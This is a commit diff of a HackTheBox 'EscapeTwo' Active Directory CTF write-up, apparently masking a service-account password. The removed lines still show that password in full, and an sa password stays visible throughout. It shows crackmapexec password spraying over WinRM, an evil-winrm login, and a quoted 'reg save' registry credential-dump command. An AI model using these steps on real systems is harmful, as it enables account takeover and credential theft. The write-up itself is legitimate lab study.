

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md, 3 parts joined by grey strips. Shown at 91% size. Rendered like a GitHub page.

````diff
--- a/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
+++ b/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
@@ -495,7 +495,7 @@ FILESTREAMLEVEL="0"
 ENABLERANU="False"
 SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
 SQLSVCACCOUNT="SEQUEL\sql_svc"
-SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
+SQLSVCPASSWORD="WqSZAF6CysD*****"
 SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
 SECURITYMODE="SQL"
 SAPWD="MSSQLP@ssw0rd!"
@@ -505,35 +505,35 @@ NPENABLED="1"
 BROWSERSVCSTARTUPTYPE="Automatic"
 IAcceptSQLServerLicenseTerms=True
 ```
-> `SEQUEL\sql_svc`：`WqSZAF6CysDQbGb3`
+> `SEQUEL\sql_svc`：`WqSZAF6CysD*****`
 > `sa`：`MSSQLP@ssw0rd!` (已知)
 
 ### 5. 嘗試登入 WinRM
-- 嘗試 `SEQUEL\sql_svc`：`WqSZAF6CysDQbGb3`
+- 嘗試 `SEQUEL\sql_svc`：`WqSZAF6CysD*****`
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ crackmapexec winrm 10.10.11.51 -u sql_svc -p 'WqSZAF6CysDQbGb3' -d sequel.htb
+└─$ crackmapexec winrm 10.10.11.51 -u sql_svc -p 'WqSZAF6CysD*****' -d sequel.htb
 ...
 HTTP        10.10.11.51     5985   10.10.11.51      [*] http://10.10.11.51:5985/wsman
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\sql_svc:WqSZAF6CysD*****
 ```
-> `SEQUEL\sql_svc`：`WqSZAF6CysDQbGb3`：失敗
+> `SEQUEL\sql_svc`：`WqSZAF6CysD*****`：失敗
 
-- 嘗試 `EscapeTwo_name.txt`：`WqSZAF6CysDQbGb3`
+- 嘗試 `EscapeTwo_name.txt`：`WqSZAF6CysD*****`
 嘗試前面建立的 Userlist: `EscapeTwo_name.txt`\
 (SMB File Leak 找到的 User)
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ crackmapexec winrm 10.10.11.51 -u EscapeTwo_name.txt -p 'WqSZAF6CysDQbGb3' -d sequel.htb
+└─$ crackmapexec winrm 10.10.11.51 -u EscapeTwo_name.txt -p 'WqSZAF6CysD*****' -d sequel.htb
 ...
 HTTP        10.10.11.51     5985   10.10.11.51      [*] http://10.10.11.51:5985/wsman
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\sa:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\angela:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\oscar:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\kevin:WqSZAF6CysDQbGb3
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\sa:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\angela:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\oscar:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\kevin:WqSZAF6CysD*****
 
 ```
-> `EscapeTwo_name.txt`：`WqSZAF6CysDQbGb3`：失敗
+> `EscapeTwo_name.txt`：`WqSZAF6CysD*****`：失敗
 
 #### 5.1  爆破 SMB RID
 ```
@@ -609,7 +609,7 @@ rose
 ca_svc
 
 ┌──(chw㉿CHW)-[~]
-└─$ crackmapexec winrm 10.10.11.51 -u EscapeTwo_smb.txt -p 'WqSZAF6CysDQbGb3' -d sequel.htb
+└─$ crackmapexec winrm 10.10.11.51 -u EscapeTwo_smb.txt -p 'WqSZAF6CysD*****' -d sequel.htb
 /usr/lib/python3/dist-packages/cme/cli.py:37: SyntaxWarning: invalid escape sequence '\ '
   formatter_class=RawTextHelpFormatter)
 /usr/lib/python3/dist-packages/cme/protocols/winrm.py:324: SyntaxWarning: invalid escape sequence '\S'
@@ -625,20 +625,20 @@ ca_svc
 /usr/lib/python3/dist-packages/cme/protocols/winrm.py:338: SyntaxWarning: invalid escape sequence '\S'
   self.conn.execute_cmd("reg save HKLM\SECURITY C:\\windows\\temp\\SECURITY && reg save HKLM\SYSTEM C:\\windows\\temp\\SYSTEM")
 HTTP        10.10.11.51     5985   10.10.11.51      [*] http://10.10.11.51:5985/wsman
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\Guest:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\DC01$:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\michael:WqSZAF6CysDQbGb3
-WINRM       10.10.11.51     5985   10.10.11.51      [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\Administrator:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\Guest:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\krbtgt:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\DC01$:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [-] sequel.htb\michael:WqSZAF6CysD*****
+WINRM       10.10.11.51     5985   10.10.11.51      [+] sequel.htb\ryan:WqSZAF6CysD*****3 (Pwn3d!)
 ```
 > 成功取得 WinRM:\
-> `sequel.htb\ryan`:`WqSZAF6CysDQbGb3`
+> `sequel.htb\ryan`:`WqSZAF6CysD*****`
 
 #### 5.2 登入 WinRM
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ evil-winrm -i 10.10.11.51 -u 'sequel.htb\ryan' -p 'WqSZAF6CysDQbGb3'
+└─$ evil-winrm -i 10.10.11.51 -u 'sequel.htb\ryan' -p 'WqSZAF6CysD*****'
 
 Evil-WinRM shell v3.7
 
````
Also changed, not shown: other parts of HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md (+14 -14 lines).
